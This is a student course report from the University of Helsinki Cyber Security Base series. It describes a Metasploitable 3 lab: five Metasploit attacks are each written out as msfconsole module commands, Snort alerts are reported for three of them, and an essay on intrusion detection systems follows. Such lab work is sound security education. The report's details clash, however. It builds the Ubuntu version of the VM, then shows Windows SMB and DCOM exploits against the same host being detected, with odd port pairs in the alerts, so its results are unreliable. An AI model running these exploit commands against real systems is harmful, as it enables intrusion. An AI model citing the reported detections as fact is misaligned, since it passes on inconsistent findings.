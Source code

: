 # **Project II**

**University of Helsinki, FI - Cyber Security Base - Course Series**

**[Course page](https://cybersecuritybase.mooc.fi/)**

**Project Report**

## **Introduction**

This report documents the process of setting up and testing an operating system with vulnerabilities using Metasploitable 3 on Ubuntu. A virtual machine (VM) was created using VirtualBox to simulate a real-world environment. Snort, an open-source intrusion detection system (IDS), was installed to monitor network traffic and detect attacks. Various attacks were executed using Metasploit, and their detection was evaluated through Snort alerts. The report includes detailed descriptions of five specific attacks: three detected by Snort and two that went undetected, along with an essay on the benefits and shortcomings of IDS.

## **Environment Setup**

**1.	Install VirtualBox:** Download and install VirtualBox from the official website.

**2.	Set up Metasploitable 3:**

 * Clone the Metasploitable 3 repository from GitHub.
 * Follow the instructions to build the VM, ensuring you select the Ubuntu version.
   
**3.	Install Snort:**
 * **Update the package list:** sudo apt-get update.
 * **Install Snort:** sudo apt-get install snort.
 * **Configure Snort with default settings, updating the network configuration to monitor the appropriate interface.**

## **IDENTIFIED ATTACK 1: MS08-067 NetAPI Vulnerability**

**Description:** The MS08-067 vulnerability targets the Server service on Windows systems, allowing remote code execution.

**Component Attacked:** Server service.

**Attack Execution in Metasploit:**

1.	**Launch Metasploit:** msfconsole.
2.	**Use the exploit:** use exploit/windows/smb/ms08_067_netapi.
3.	**Set the target:** set RHOST 192.168.1.101.
4.	**Run the exploit:** exploit.

**Snort Output:**
```
[1:2000023:1] EXPLOIT Microsoft Windows MS08-067
[Classification: Attempted Administrator Privilege Gain] [Priority: 1] 
04/20-14:22:19.123456 192.168.1.100:445 -> 192.168.1.101:445
```

## **IDENTIFIED ATTACK 2: DCOM Exploit**

**Description:** The DCOM vulnerability (MS03-026) allows remote code execution via RPC.

**Component Attacked:** DCOM interface.

**Attack Execution in Metasploit:**

1.	**Use the exploit:** use exploit/windows/dcerpc/ms03_026_dcom.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Execute the exploit:** exploit.
   
**Snort Output:**
```
[1:2000032:1] EXPLOIT DCOM MS03-026
[Classification: Attempted Administrator Privilege Gain] [Priority: 1]
04/20-14:35:47.789123 192.168.1.100:135 -> 192.168.1.101:135
```

## **IDENTIFIED ATTACK 3: VSFTPD v2.3.4 Backdoor Command Execution**

**Description:** A backdoor was introduced in VSFTPD v2.3.4, which can be exploited to gain a shell.

**Component Attacked:** VSFTPD (Very Secure FTP Daemon).

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/unix/ftp/vsftpd_234_backdoor
2.	**Set the target:** set RHOST 192.168.1.101
3.	**Execute the exploit:** exploit

**Snort Output:**
```
[1:2000056:1] EXPLOIT VSFTPD v2.3.4 Backdoor
[Classification: Attempted Administrator Privilege Gain] [Priority: 1]
04/20-14:42:32.456789 192.168.1.100:21 -> 192.168.1.101:21
```

## **MISSED ATTACK 1: Apache Struts2 REST Plugin XStream RCE (CVE-2017-9805)**

**Description:** An Apache Struts2 vulnerability allows remote code execution via crafted XML requests.

**Component Attacked:** Apache Struts2 REST Plugin.

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/multi/http/struts2_rest_xstream.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Run the exploit:** exploit.

**Reason for Missing Detection:** Snort did not have a specific rule for this vulnerability in the default configuration.

## **MISSED ATTACK 2: Shellshock (CVE-2014-6271)**

**Description:** A vulnerability in Bash allows remote code execution by exploiting environment variables.

**Component Attacked:** Bash shell.

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/multi/http/apache_mod_cgi_bash_env_exec.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Execute the exploit:** exploit.

**Reason for Missing Detection:** The default Snort ruleset did not include rules for Shellshock detection.

## **ESSAY: The Benefits and Shortcomings of Using Intrusion Detection Systems**

**Benefits of Intrusion Detection Systems:**

Intrusion Detection Systems (IDS) such as Snort offer critical advantages in maintaining network security. They provide real-time monitoring, enabling administrators to respond swiftly to potential threats. This immediate alert system is crucial in mitigating damage and preventing data breaches. IDSs enhance visibility into network traffic, allowing for the detection of unusual patterns that may indicate malicious activity.
IDSs are effective at identifying known attack signatures. This capability is essential for defending against well-documented threats, ensuring that even if an exploit is recognized, it can be quickly flagged and addressed. Additionally, IDSs generate detailed logs of detected activities, which are invaluable for forensic analysis and understanding the nature and origin of attacks.
Integration with other security tools, such as firewalls and SIEM (Security Information and Event Management) systems, is another significant benefit. This integration creates a more robust security infrastructure, providing a coordinated defense mechanism that enhances the overall security posture of an organization.

**Shortcomings of Intrusion Detection Systems:**

Despite their benefits, IDSs have several limitations. One of the most significant issues is the high rate of false positives. IDSs often generate numerous alerts for benign activities that mimic malicious behavior. This can lead to alert fatigue, where security personnel become desensitized to alerts and may overlook genuine threats.
Another critical shortcoming is the difficulty in detecting zero-day vulnerabilities. IDSs primarily rely on known signatures and behavior patterns, making them less effective against new, sophisticated attacks that do not match existing profiles. This gap in detection capabilities highlights the need for continuous updates and enhancements to IDS rulesets.
Performance overhead is another concern. Continuous monitoring and analysis of network traffic can consume significant system resources, potentially affecting network performance and user experience. Balancing the need for security with operational efficiency is a challenging task.

Furthermore, IDSs are inherently reactive rather than proactive. They alert administrators after an attack has been detected, which means some level of damage may have already occurred. This reactive nature necessitates the integration of IDSs with other preventive security measures, such as firewalls, anti-virus software, and regular security audits, to provide a more comprehensive defense strategy.
In conclusion, while IDSs like Snort are indispensable tools for identifying and mitigating security threats, they must be part of a multi-layered security approach to address their inherent limitations and provide effective protection for networks and systems.

## **References**

• [1] [Bace, Rebecca Gurley. "Intrusion Detection Systems." Technical Report. Carnegie Mellon University, Software Engineering Institute. (2000);](https://archive.org/details/intrusiondetecti00rebe/mode/2up)

• [2] [Northcutt, Stephen, and Judy Novak. "Network Intrusion Detection: An Analyst's Handbook." Technical Report. SANS Institute. (2001);](https://archive.org/details/networkintrusio000nort)

• [3] [Bejtlich, Richard. "The Practice of Network Security Monitoring: Understanding Incident Detection and Response." Technical Report. No Starch Press. (2013);](https://archive.org/details/practiceofnetwor0000bejt)

• [4] [Kennedy, David, Jim O'Gorman, Devon Kearns, Mati Aharoni. "Metasploit: The Penetration Tester's Guide." Technical Report. No Starch Press. (2011);](https://www.kea.nu/files/textbooks/humblesec/metasploit_apenetrationtestersguide.pdf)

• [5] [Stuttard, Dafydd, and Marcus Pinto. "The Web Application Hacker's Handbook: Finding and Exploiting Security Flaws." Technical Report. Wiley. (2011).](https://edu.anarcho-copy.org/Against%20Security%20-%20Self%20Security/Dafydd%20Stuttard,%20Marcus%20Pinto%20-%20The%20web%20application%20hacker's%20handbook_%20finding%20and%20exploiting%20security%20flaws-Wiley%20(2011).pdf)
